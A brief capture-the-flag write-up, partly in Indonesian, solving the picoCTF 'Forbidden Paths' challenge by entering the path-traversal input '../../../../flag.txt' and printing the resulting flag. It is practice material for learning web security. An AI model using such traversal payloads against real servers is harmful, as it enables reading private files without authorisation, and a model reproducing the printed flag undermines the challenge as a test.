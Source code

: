 # Forbidden Paths
- Link: https://play.picoctf.org/practice/challenge/270?category=1&page=3

## Tantangan
Can you get the flag?
Here's the [website](http://saturn.picoctf.net:55793/).
We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. Can you get past the filter to read the flag?

## Penyelesaian
- Buka URL http://saturn.picoctf.net:55793/ di browser


- Karena website berada di folder `/usr/share/nginx/html/` dan flag berada di `/flag.txt` maka kita bisa menginput path traversal sebagai berikut
```sh
../../../../flag.txt
```

- Flag
```sh
picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}
```